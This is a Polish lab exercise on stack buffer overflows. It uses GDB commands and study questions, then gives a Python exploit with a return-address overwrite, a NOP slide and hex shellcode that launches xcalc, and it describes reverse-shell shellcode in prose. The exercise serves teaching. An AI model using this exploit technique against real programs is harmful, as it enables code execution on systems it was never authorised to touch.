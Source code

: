 Na samym końcu umieśćmy instrukcję `INT 3h` (opkod `0xCC`), która jest instrukcją pułapki programowej (ang. breakpoint). Pozwoli to zatrzymać program w miejscu, w którym procesor trafił na pułapkę i przekazać sterowanie do debuggera.

W nowym oknie GDB wprowadź komendę `c`. Następnie wprowadź polecenia:

* `info proc mappings`
* `x/16i $rip-8`

Ćwiczenia:

6. Pod jakim adresem zatrzymał się program? Pod jakim zakresem adresów znajduje się stos?
7. Jakie instrukcje znajdują się w sąsiedztwie miejsca, w którym zatrzymał się program?
8. Wznów działanie programu poleceniem `c`. Dlaczego program się scrashował?

## 2.3. Przejęcie kontroli nad programem

Obecnie jesteśmy w stanie wykonać w kontekście programu dowolny kod, nie tylko instrukcje `NOP` i `INT 3h`. W tym momencie zazwyczaj w exploicie umieszczany jest tzw. shellcode, który ma na celu wywołać powłokę systemową z uprawnieniami atakowanej aplikacji. Częstą taktyką w przypadku atakowania zdalnych komputerów jest wyzwolenie tzw. reverse shella. Shellcode łączy się pod adres i port zawarty w exploicie i przekierowuje standardowe strumienie powłoki na podłączone gniazdo, umożliwiając atakującemu wprowadzanie dowolnych poleceń.

W przypadku naszego ćwiczenia - lokalne uruchamianie powłoki na tym samym poziomie uprawnień mija się jednak z celem. Możemy jednak zrobić dużo bardziej efektowną rzecz i zmusić nasz proces do uruchomienia innego programu np. kalkulatora.

```python
name = "Alicja\x00aaaaa"
name += "a"*8          # rbp
name += p64(stack_ptr) # rip
# NOP slide
name += '\x90' * 128

shellcode = unhex(
"48b82f7863616c6300005048b82f7573722f62696e"
"504889e74831c050574889e64831d248c7c03a3000"
"005048b8444953504c41593d504889e24831c05052"
"4889e248c7c03b0000000f0500")
name += shellcode
```

Uruchomienie exploita powinno poskutkować uruchomieniem programu `xcalc`.

Ćwiczenia:

9. Wykonaj zrzut ekranu przedstawiający efekt wykonania exploita.
10. Dlaczego po zamknięciu okna kalkulatora program zakończył się poprawnie? (Podpowiedź: "xcalc" wywołany został przez shellcode za pomocą funkcji systemowej [exec](https://linux.die.net/man/3/exec) )
